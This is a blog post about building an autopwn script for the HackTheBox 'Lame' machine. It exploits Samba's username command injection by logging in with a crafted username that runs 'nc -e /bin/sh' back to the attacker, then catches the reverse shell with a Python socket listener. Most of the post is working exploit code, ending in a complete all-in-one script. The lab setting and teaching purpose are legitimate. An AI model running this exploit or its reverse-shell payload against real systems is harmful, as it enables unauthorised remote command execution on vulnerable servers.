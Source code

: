```yaml
---
layout: post
title: "HackTheBox Lame Autopwn"
permalink: /blog/lame-autopwn
---
```


# Building The Autopwn

For my [lame](https://agent-tiro.github.io/htb/lame) writeup I ended up making an autopwn script. Mainly as an exercise for me to keep improving my scripting knowledge. I thought it would be good to explain how it was put together and built in stages for those looking to start scripting a bit more. 

## The Exploit

The aim is to connect to the Samba share and logon with the crafted username to run a command that will connect back to a listener we set up. This part is fairly straight forward. All we need is a python library to handle the smb protocol. I used [pysmb](https://pypi.org/project/pysmb/), which has some good online [documentation](https://pysmb.readthedocs.io/en/latest/). 

First up we will set the malicious username variable, and a password to exploit the vulnerability. 

```
username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important
```

Now we want to import the relevant parts from the smb library and setup a connection to the Samba share. 

```
from smb.SMBConnection import SMBConnection
from smb import smb_structs

username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important

smb_structs.SUPPORT_SMB2 = False
conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
conn.connect('10.10.10.3', 445)
```

In this part we set support to SMB2 to false to enable connection to the older version of Samba that we are targetting. The details for the connection are completed, using the documents as a reference for what should be passed. Then connect is used to initiate the connection to the target IP and port. 

If you really wanted this could be the end of your exploit script. You could setup a netcat listener and run this exploit and enjoy your shell. Or if you wanted to challenge yourself you could try and setup your own listener in python to catch the incoming connection

## The Listener

For this I used the socket library which is well documented and has a lot of use cases that can be used to help solve problems you encounter. 

```
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((<ip addr>, <port>))
s.listen(5)
```

So now the listener is setup we need a way to accept the incoming connection when the exploit is ran. It also needs to be able to send commands to the target and receive the response. 

```
client_socket, client_addr = s.accept() # accepts the incoming connection
while True:
    command = input("") # take user input for commands
    if command.lower() == 'exit': # so we can use exit to close the shell
        break
    command = command.encode() # encode the command to be sent
    client_socket.send(command + b'\n') # send the command
    response = client_socket.recv(2048).decode() # receive the response and decode
    print(response) # print the response
client_socket.close()
s.close()
```

## The Listener Problem

The problem we have here is that if this was all combined into a script is that it wouldn't be possible to launch the listener then switch to running the exploit. The easiest way around this that I found was to use multiprocessing. This needed a bit of a rework of the above parts and to put some of them into functions. With the multiprocessing bit looking like this:

```
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```

This basically sets a process to the listener and another to the exploit and starts them sequentially before dropping into the command functon which accepts the inbound connection and gives command shell functionality. 

## The Final Exploit

Putting all of this together, with a little extra to take user input to set the listening host and port and you have an all in one script that will setup the listener, run the exploit and give you command line access to the target. 

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```
